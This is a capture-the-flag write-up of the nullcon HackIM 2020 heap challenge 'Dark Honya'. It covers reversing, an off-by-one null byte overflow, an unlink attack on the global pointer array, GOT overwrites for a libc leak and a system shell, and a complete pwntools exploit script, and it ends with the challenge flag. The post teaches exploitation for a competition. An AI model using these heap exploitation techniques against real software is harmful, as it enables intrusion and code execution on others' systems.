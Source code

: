 ```yaml
---
title: Dark Honya -- nullcon HackIM 2020
categories: [Blogging, Tutorial]
tags: [nullcon20, pwn]
date: 2020-02-09
# authors: ["pedro-bernardo", "Jorge", "jofra"]
---
```


# Dark Honya -- nullcon HackIM 2020
**Points:** 460 (dynamic)

## TL;DR
1. Null byte overflow on heap chunk
2. Free overflown chunk
3. Overwrite ptr array 
4. Write `printf@plt` on `free@got` to obtain a libc leak
5. Write `system` on `atoi@got` to get a shell


### Binary Mitigations
```
Arch:     amd64-64-little
RELRO:    Partial RELRO
Stack:    No canary found
NX:       NX enabled
PIE:      No PIE (0x400000)
```

## Reversing
The program provided three functionalities:

#### 1. Buy a book
```c
void buy()
{
  char *chunk; 
  signed int i;

  for ( i = 0; ptr[i]; ++i )
    ;
    
  if ( i <= 15 )
  {
    chunk = malloc(0xF8);
    puts("Name of the book?");
    read_f8_buff(chunk);
    ptr[i] = chunk;
  }
  else
  {
    puts("Next time bring a bag with you!");
  }
}
```
#### 2. Return a book
```c
void put_back()
{
  int idx; 

  puts("Which book do you want to return?");
  idx = read_int();
  if ( (unsigned int)idx > 0xF )
    puts("boy, you cannot return what you dont have!");
  free(ptr[idx]);
  ptr[idx] = 0;
}

```

#### 3. Write on a book
```c
void write()
{
  int idx; 

  idx = read_int();
  if ( (unsigned int)idx <= 0xF )
  {
    puts("Name of the book?");
    read_f8_buff(ptr[idx]);
  }
  else
  {
    puts("Writing in the air now?");
  }
}
```

## Vulnerability

The binary uses `read_f8_buff` when reading data to buffers. This function reads 0xf8 bytes to a buffer and appends a '\x00' character to the end of the buffer. If 0xf8 characters are provided, the '\x00' will be appended out of bounds.

```c
void read_f8_buff(char *buff)
{
  int bytes_read; 

  bytes_read = read(0, buff, 0xF8);
  if ( bytes_read == -1 )
    puts("Err read string");
  buff[bytes_read] = 0; // off by one vulnerability
}
```

![](https://i.imgur.com/43FDHCJ.png)

## Exploitation Plan

### Step 1 - Control global ptr array entries
We can leverage the off-by-one vulnerability in `read_f8_buffer` to force a coalesce with an allocated chunk. This will call the `unlink` macro.

```c
/* Take a chunk off a bin list */
#define unlink(AV, P, BK, FD) {                                            
    FD = P->fd;								      
    BK = P->bk;					
    // we have to satisfy this check
    if (__builtin_expect (FD->bk != P || BK->fd != P, 0))		      
      malloc_printerr (check_action, "corrupted double-linked list", P, AV);  
    else {		
        // important part
        FD->bk = BK;							   
        BK->fd = FD;							      
        ...							      
      }									      
}
```
By controlling the `FD` and `BK` pointers, we can write the chunk `BK` and `FD`s address on arbitrary memory, as long as `FD->bk == P` and `BK->fd == P`. So, effectively, we must have a pointer in memory to `P`. 

When we allocate a `chunk` its address is stored on the global `ptr` list.

This address points to the usable area inside the chunk (i.e. not the actual beginning of the chunk). With this in mind we prepare a `fake chunk` at the stored address with modified `size`,`fd` and `bk`pointers and next chunk's `prev_size`. We then free the next chunk to trigger a coalesce which will use the unlink macro.


![](https://i.imgur.com/QM5Q6jt.png)

This will overwrite ptr_array[2] with &ptr_array-8 (fake_chunk->fd). 

### Step 2 - Leak libc

We now control the global `ptr` array, so we can insert arbitrary addresses and use the write functionality to achieve a **write_what_where**. 
We will now:
1. Insert `free@got`'s address on the `ptr` array
2. Use the write functionality to replace the `free@got` with `printf@plt`
3. "Free" a chunk with a format string as it's content which will call `printf` and get us a`libc leak`


### Step 3 - Get shell

Since we have a`libc leak`, the next step is to call `system("/bin/sh")`. To do this we overwrite the `atoi` entry on the got with `system`. This way when the program asks us for the menu option we simply provide the string `/bin/sh`.


## Exploit Script
```python

from pwn import *

def go():
    s = remote("pwn2.ctf.nullcon.net", 5002)
    libc = ELF("./libc-2.23.so")
    ptr = 0x6021b0
    leak_offset = 0x20830
    
    # we're not using the name
    s.send("A"*8)

    # alocate 4 chunks
    for n in range(5-1):
        alloc(s, chr(ord('A')+n)*0x10)
    
    # alocate 5th chunk with format string needed to obtain a leak
    alloc(s, "LEAK:%15$p")

    # .bss entry must point to chunk-0x10, so we will create a fake chunk
    # 0x10 bytes after our allocated chunk, populating the prev_size with the 
    # correct size of our fake chunk
    write_name(s, 2, '\x00'*8 + p64(0xf1) + p64(ptr-0x18) + p64(ptr-0x10) + (0xf8-0x28)*'A' + p64(0xf0))

    # free the third chunk, triggering the unlink 
    free(s, 3)

    # free 0x602018
    # &ptr-0x8 is now written on the third entry of the pointer list
    # we now use it to change the first pointer to point to free@got
    write_name(s, 2, '\x00'*8 + p64(0x602018))


    # overwrite both free and puts to printf
    write_name(s, 0, p64(0x400680) + p64(0x400680))

    # trigger the printf on the fifth chunk and obtain a libc leak
    free(s, 4)

    s.recvuntil("LEAK:")
    libc.address = int(s.recv(14)[2:], 16) - leak_offset

    log.info("libc      @ {}".format(hex(libc.address)))

    # atoi 0x602060
    # replace atoi with system
    write_name(s, 2, '\x00'*8 + p64(0x602060))

    write_name(s, 0, p64(libc.symbols['system']))   

    s.sendline("/bin/sh")
    s.sendline("cat flag")

    s.interactive()

go()

# hackim20{Cause_Im_coming_atcha_like_a_dark_honya_?}
```

